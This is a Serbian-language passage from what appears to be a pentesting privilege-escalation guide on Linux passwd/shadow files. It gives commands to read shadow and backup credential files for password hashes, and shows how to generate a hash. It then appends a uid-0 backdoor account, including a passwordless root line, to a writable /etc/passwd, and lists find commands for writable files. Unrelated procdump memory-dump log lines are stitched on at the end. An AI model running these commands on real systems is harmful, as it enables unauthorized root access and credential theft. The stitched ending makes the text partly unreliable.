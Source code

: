 ### Fajlovi Passwd/Shadow

Zavisno od operativnog sistema, fajlovi `/etc/passwd` i `/etc/shadow` mogu koristiti drugačije ime ili može postojati rezervna kopija. Stoga se preporučuje **pronaći sve njih** i **proveriti da li možete pročitati** fajlove da biste videli **da li se unutar njih nalaze heševi**:

```bash
#Passwd equivalent files
cat /etc/passwd /etc/pwd.db /etc/master.passwd /etc/group 2>/dev/null
#Shadow equivalent files
cat /etc/shadow /etc/shadow- /etc/shadow~ /etc/gshadow /etc/gshadow- /etc/master.passwd /etc/spwd.db /etc/security/opasswd 2>/dev/null
```

U nekim situacijama možete pronaći **heš lozinki** unutar `/etc/passwd` (ili ekvivalentnog) fajla.

```bash
grep -v '^[^:]*:[x\*]' /etc/passwd /etc/pwd.db /etc/master.passwd /etc/group 2>/dev/null
```

### Writable /etc/passwd

Prvo, generišite lozinku pomoću jedne od sledećih komandi.

```
openssl passwd -1 -salt hacker hacker
mkpasswd -m SHA-512 hacker
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
```

Zatim dodajte korisnika `hacker` i dodajte generisanu lozinku.

```
hacker:GENERATED_PASSWORD_HERE:0:0:Hacker:/root:/bin/bash
```

Na primer: `haker:$1$haker$TzyKlv0/R/c28R.GAeLw.1:0:0:Haker:/root:/bin/bash`

Sada možete koristiti `su` komandu sa `haker:haker`

Alternativno, možete koristiti sledeće linije da dodate korisnika bez lozinke.\
UPOZORENJE: možete smanjiti trenutnu sigurnost mašine.

```
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy
```

NAPOMENA: Na BSD platformama `/etc/passwd` se nalazi na lokaciji `/etc/pwd.db` i `/etc/master.passwd`, takođe `/etc/shadow` je preimenovan u `/etc/spwd.db`.

Treba da proverite da li možete **pisati u neke osetljive datoteke**. Na primer, da li možete pisati u neku **konfiguracionu datoteku servisa**?

```bash
find / '(' -type f -or -type d ')' '(' '(' -user $USER ')' -or '(' -perm -o=w ')' ')' 2>/dev/null | grep -v '/proc/' | grep -v $HOME | sort | uniq #Find files owned by the user or writable by anybody
for g in `groups`; do find \( -type f -or -type d \) -group $g -perm -g=w 2>/dev/null | grep -v '/proc/' | grep -v $HOME; done #Find files writable by any group of the user
```


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714